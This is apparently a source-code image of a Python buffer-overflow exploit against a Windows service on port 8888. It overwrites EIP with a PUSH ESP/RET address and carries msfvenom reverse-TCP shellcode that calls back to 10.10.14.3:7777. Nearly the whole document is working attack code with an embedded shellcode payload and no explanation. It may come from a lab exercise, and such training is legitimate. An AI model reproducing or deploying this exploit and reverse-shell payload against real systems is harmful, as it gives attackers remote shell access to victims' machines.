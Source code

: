 ```python

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=7777 -b '\x00\x0A\x0D' -f python -v payload
payload =  b""
payload += b"\xd9\xee\xd9\x74\x24\xf4\xba\xf4\xf2\xbf\xb8\x5f"
payload += b"\x2b\xc9\xb1\x52\x31\x57\x17\x03\x57\x17\x83\x1b"
payload += b"\x0e\x5d\x4d\x1f\x07\x20\xae\xdf\xd8\x45\x26\x3a"
payload += b"\xe9\x45\x5c\x4f\x5a\x76\x16\x1d\x57\xfd\x7a\xb5"
payload += b"\xec\x73\x53\xba\x45\x39\x85\xf5\x56\x12\xf5\x94"
payload += b"\xd4\x69\x2a\x76\xe4\xa1\x3f\x77\x21\xdf\xb2\x25"
payload += b"\xfa\xab\x61\xd9\x8f\xe6\xb9\x52\xc3\xe7\xb9\x87"
payload += b"\x94\x06\xeb\x16\xae\x50\x2b\x99\x63\xe9\x62\x81"
payload += b"\x60\xd4\x3d\x3a\x52\xa2\xbf\xea\xaa\x4b\x13\xd3"
payload += b"\x02\xbe\x6d\x14\xa4\x21\x18\x6c\xd6\xdc\x1b\xab"
payload += b"\xa4\x3a\xa9\x2f\x0e\xc8\x09\x8b\xae\x1d\xcf\x58"
payload += b"\xbc\xea\x9b\x06\xa1\xed\x48\x3d\xdd\x66\x6f\x91"
payload += b"\x57\x3c\x54\x35\x33\xe6\xf5\x6c\x99\x49\x09\x6e"
payload += b"\x42\x35\xaf\xe5\x6f\x22\xc2\xa4\xe7\x87\xef\x56"
payload += b"\xf8\x8f\x78\x25\xca\x10\xd3\xa1\x66\xd8\xfd\x36"
payload += b"\x88\xf3\xba\xa8\x77\xfc\xba\xe1\xb3\xa8\xea\x99"
payload += b"\x12\xd1\x60\x59\x9a\x04\x26\x09\x34\xf7\x87\xf9"
payload += b"\xf4\xa7\x6f\x13\xfb\x98\x90\x1c\xd1\xb0\x3b\xe7"
payload += b"\xb2\xb4\xb1\xe9\x41\xa1\xc7\xf5\x5b\x50\x41\x13"
payload += b"\x09\x82\x07\x8c\xa6\x3b\x02\x46\x56\xc3\x98\x23"
payload += b"\x58\x4f\x2f\xd4\x17\xb8\x5a\xc6\xc0\x48\x11\xb4"
payload += b"\x47\x56\x8f\xd0\x04\xc5\x54\x20\x42\xf6\xc2\x77"
payload += b"\x03\xc8\x1a\x1d\xb9\x73\xb5\x03\x40\xe5\xfe\x87"
payload += b"\x9f\xd6\x01\x06\x6d\x62\x26\x18\xab\x6b\x62\x4c"
payload += b"\x63\x3a\x3c\x3a\xc5\x94\x8e\x94\x9f\x4b\x59\x70"
payload += b"\x59\xa0\x5a\x06\x66\xed\x2c\xe6\xd7\x58\x69\x19"
payload += b"\xd7\x0c\x7d\x62\x05\xad\x82\xb9\x8d\xdd\xc8\xe3"
payload += b"\xa4\x75\x95\x76\xf5\x1b\x26\xad\x3a\x22\xa5\x47"
payload += b"\xc3\xd1\xb5\x22\xc6\x9e\x71\xdf\xba\x8f\x17\xdf"
payload += b"\x69\xaf\x3d"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```
